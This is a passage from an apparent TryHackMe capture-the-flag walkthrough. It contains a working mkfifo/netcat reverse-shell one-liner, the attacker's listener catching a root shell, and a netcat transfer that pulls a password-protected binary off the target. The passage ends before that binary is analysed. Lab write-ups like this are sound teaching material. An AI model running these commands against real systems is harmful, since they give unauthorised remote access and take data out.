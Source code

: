 ```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.165.116 1234 >/tmp/f
```

Switch to a waiting netcat session to see we have caught the shell:

```text
┌──(root💀kali)-[~/thm/catpics]
└─# nc -nlvp 1234       
listening on [any] 1234 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.91.88] 59310
/bin/sh: 0: can't access tty; job control turned off
#
```

## Custom Executable

Ok, let's try the executable again:

```text
# cd /home/catlover
# ls -l
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
# ./runme
Please enter yout password: 12345
Access Denied
```

So we can run the executable, but still need to find a password. The next logical step here is to copy the file to my Kali machine and analyse it.  

On Kali we start a new netcat session listening on a spare port and tell it to redirect what is sent to it to a file:

```text
┌──(root💀kali)-[~/thm/catpics]
└─# nc -nlvp 443 > runme
listening on [any] 443 ...
```

Now back on the server we send the file to Kali by redirecting it using netcat that is on there:

```text
# nc 10.8.165.116 443 < home/catlover/runme
```

Switch back to Kali, ctrl-c to close the session and we will have the file:

```text
┌──(root💀kali)-[~/thm/catpics]
└─# nc -nlvp 443 > runme
listening on [any] 443 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.91.88] 38002
^C

┌──(root💀kali)-[~/thm/catpics]
└─# ls -l
-rw-r--r-- 1 root root 18856 Jun  6 22:10 runme

┌──(root💀kali)-[~/thm/catpics]
└─# chmod +x runme

┌──(root💀kali)-[~/thm/catpics]
└─# ./runme                                                          
Please enter yout password: 12345
Access Denied
```
